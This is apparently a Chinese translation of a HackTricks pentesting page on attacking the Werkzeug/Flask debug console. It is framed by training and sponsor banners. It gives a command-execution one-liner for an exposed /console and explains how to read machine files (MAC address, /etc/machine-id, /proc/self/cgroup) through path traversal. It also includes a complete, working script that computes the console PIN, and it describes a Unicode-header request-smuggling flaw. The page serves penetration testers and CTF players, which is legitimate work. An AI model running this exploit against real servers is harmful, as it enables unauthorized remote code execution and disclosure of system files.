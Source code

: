 # Werkzeug / Flask Debug

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**从黑客的角度审视您的网络应用、网络和云**

**查找并报告具有实际商业影响的关键可利用漏洞。** 使用我们 20 多个自定义工具来映射攻击面，发现让您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## 控制台 RCE

如果调试处于活动状态，您可以尝试访问 `/console` 并获得 RCE。
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

互联网上还有几个漏洞，比如[这个](https://github.com/its-arun/Werkzeug-Debug-RCE)或metasploit中的一个。

## PIN保护 - 路径遍历

在某些情况下，**`/console`** 端点将受到PIN保护。如果您有**文件遍历漏洞**，您可以泄露生成该PIN所需的所有信息。

### Werkzeug控制台PIN漏洞

在应用程序中强制显示调试错误页面以查看此内容：
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
在尝试访问 Werkzeug 的调试接口时，会遇到关于“控制台锁定”场景的消息，指示需要一个 PIN 来解锁控制台。建议通过分析 Werkzeug 的调试初始化文件 (`__init__.py`) 中的 PIN 生成算法来利用控制台 PIN。可以从 [**Werkzeug 源代码库**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py) 研究 PIN 生成机制，但建议通过文件遍历漏洞获取实际服务器代码，以避免潜在的版本差异。

要利用控制台 PIN，需要两组变量，`probably_public_bits` 和 `private_bits`：

#### **`probably_public_bits`**

* **`username`**: 指发起 Flask 会话的用户。
* **`modname`**: 通常指定为 `flask.app`。
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: 通常解析为 **Flask**。
* **`getattr(mod, '__file__', None)`**: 表示 Flask 目录中 `app.py` 的完整路径（例如，`/usr/local/lib/python3.5/dist-packages/flask/app.py`）。如果 `app.py` 不适用，**尝试 `app.pyc`**。

#### **`private_bits`**

* **`uuid.getnode()`**: 获取当前机器的 MAC 地址，`str(uuid.getnode())` 将其转换为十进制格式。
* 要 **确定服务器的 MAC 地址**，必须识别应用使用的活动网络接口（例如，`ens3`）。如果不确定，**泄露 `/proc/net/arp`** 以找到设备 ID，然后 **从 `/sys/class/net/<device id>/address`** 中提取 MAC 地址。
*   可以按如下方式将十六进制 MAC 地址转换为十进制：

```python
# 示例 MAC 地址: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: 将 `/etc/machine-id` 或 `/proc/sys/kernel/random/boot_id` 中的数据与 `/proc/self/cgroup` 中最后一个斜杠 (`/`) 后的第一行连接起来。

<details>

<summary>代码 `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

在收集所有必要数据后，可以执行漏洞利用脚本以生成 Werkzeug 控制台 PIN：

在收集所有必要数据后，可以执行漏洞利用脚本以生成 Werkzeug 控制台 PIN。该脚本使用组装的 `probably_public_bits` 和 `private_bits` 创建一个哈希，然后经过进一步处理以生成最终的 PIN。以下是执行此过程的 Python 代码：
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
这个脚本通过对连接的位进行哈希，添加特定的盐（`cookiesalt` 和 `pinsalt`），并格式化输出，生成 PIN。需要注意的是，`probably_public_bits` 和 `private_bits` 的实际值需要准确地从目标系统获取，以确保生成的 PIN 与 Werkzeug 控制台预期的匹配。

{% hint style="success" %}
如果您使用的是 **旧版本** 的 Werkzeug，请尝试将 **哈希算法更改为 md5** 而不是 sha1。
{% endhint %}

## Werkzeug Unicode 字符

正如在 [**这个问题**](https://github.com/pallets/werkzeug/issues/2833) 中观察到的，Werkzeug 不会关闭带有 Unicode 字符的请求头。正如在 [**这个写作**](https://mizu.re/post/twisty-python) 中解释的，这可能导致 CL.0 请求走私漏洞。

这是因为，在 Werkzeug 中可以发送一些 **Unicode** 字符，这会导致服务器 **崩溃**。然而，如果 HTTP 连接是通过 **`Connection: keep-alive`** 头创建的，请求的主体将不会被读取，连接仍将保持打开状态，因此请求的 **主体** 将被视为 **下一个 HTTP 请求**。

## 自动化利用

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## 参考文献

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**获取黑客对您的网络应用、网络和云的看法**

**查找并报告具有实际商业影响的关键可利用漏洞。** 使用我们 20 多种自定义工具来映射攻击面，发现让您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
学习和实践 AWS 黑客攻击：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客攻击：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
